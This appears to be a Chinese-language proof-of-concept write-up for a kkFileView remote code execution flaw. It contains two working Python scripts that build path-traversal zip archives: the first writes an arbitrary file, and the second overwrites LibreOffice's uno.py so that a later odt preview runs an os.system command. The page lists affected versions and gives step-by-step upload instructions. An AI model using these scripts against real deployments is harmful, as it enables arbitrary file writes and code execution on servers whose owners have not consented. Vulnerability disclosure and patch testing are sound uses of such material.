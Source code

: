 ## kkFileView-v4.3.0-RCE

## 影响版本
```
v4.3.0~v4.40
v4.2.1~v4.2.0
```


## 环境部署
本地源码启动或者docker部署

![image](https://github.com/wy876/POC/assets/139549762/ad4f21c4-0edf-44d9-8ab8-303c42b3e1f3)


## 任意文件上传
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
制作恶意hack.zip，注意里面必须有一个正常文件，例如test，便于创建hack.zip_缓存文件




![image](https://github.com/wy876/POC/assets/139549762/a85df4cd-a9fd-47a4-b02e-cbeb7770bdb0)


上传文件并预览

![image](https://github.com/wy876/POC/assets/139549762/6c027fca-b554-4920-ad1a-93307a82d1e5)


![image](https://github.com/wy876/POC/assets/139549762/2f6dec05-7d0b-47a3-8b9f-d1b5bfebaf21)

发现成功穿越

## RCE
可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
制作恶意的zip包 上传并预览

![image](https://github.com/wy876/POC/assets/139549762/1d09daaa-c0a7-4d36-8bcc-6087d2033d6b)


再随便上传一个odt文件，另其发起libreoffice任务 上传并预览

![image](https://github.com/wy876/POC/assets/139549762/35e50906-d5da-41a6-9310-fc40c614b6ab)


可以看到命令成功被执行

![image](https://github.com/wy876/POC/assets/139549762/7afcb974-479b-47d2-aebd-a214bbcfb6e5)


uno.py中也确实被写入了内容

![image](https://github.com/wy876/POC/assets/139549762/1c83cb1c-9c37-4a7c-8cd0-8f4e615469fa)

## 漏洞来源
- https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC
- https://github.com/kekingcn/kkFileView/issues/553
